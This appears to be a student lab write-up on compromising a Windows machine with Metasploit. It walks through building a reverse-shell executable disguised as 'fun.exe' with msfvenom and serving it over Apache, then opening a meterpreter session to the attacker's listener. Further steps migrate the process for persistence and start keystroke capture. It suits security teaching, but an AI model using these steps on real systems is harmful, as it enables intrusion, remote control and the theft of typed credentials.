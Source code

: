 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![1con](https://github.com/user-attachments/assets/0d25e9d9-c4b8-4ac8-ac9f-345b4ec13e00)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![2venom](https://github.com/user-attachments/assets/488fa0a4-6c42-491c-af54-2ce2a5b3cebc)

copy the fun.exe into the apache /var/www/html folder

![3cp](https://github.com/user-attachments/assets/8c032d11-68d5-4cc4-92c0-9cee47f59626)

Start apache server
sudo systemctl apache2 start

![4sys](https://github.com/user-attachments/assets/e63fed3e-ece1-49ed-bf4c-c51562e9821f)

Check the status of apache2

![5stat](https://github.com/user-attachments/assets/e0b4745e-2798-4a07-8cc6-04851015a04e)

Invoke msfconsole:

![6msfc](https://github.com/user-attachments/assets/64acdbd3-c086-4101-95b6-ce6e4d81b73b)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7help](https://github.com/user-attachments/assets/4e8232ee-33aa-4455-8a72-391b4eff3d01)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![8](https://github.com/user-attachments/assets/39b60011-8a30-4c59-bab3-083e062e2632)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![8download](https://github.com/user-attachments/assets/a26d4eb4-dbc9-4a69-8328-a0fa2cfdf942)

Bypass any warning boxes, double-click the file, and allow it to run.

![9show](https://github.com/user-attachments/assets/8a60e1e0-626d-4d52-a331-18887ba75425)

On kali give the command exploit

![10com](https://github.com/user-attachments/assets/1218d326-1024-4702-83f1-8eac34ba66a4)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running 

![11sho](https://github.com/user-attachments/assets/472c76bb-f732-4508-9d82-92bcc8f7b255)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

![12mig](https://github.com/user-attachments/assets/39eab6b3-a07a-4412-8760-2de39ec788b7)

at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted

![13sho](https://github.com/user-attachments/assets/f7c48cdc-d11f-4515-b053-87173525947b)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![15keyscan](https://github.com/user-attachments/assets/ddfc16fa-9ae9-44dd-880f-7d15c2feb0c1)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
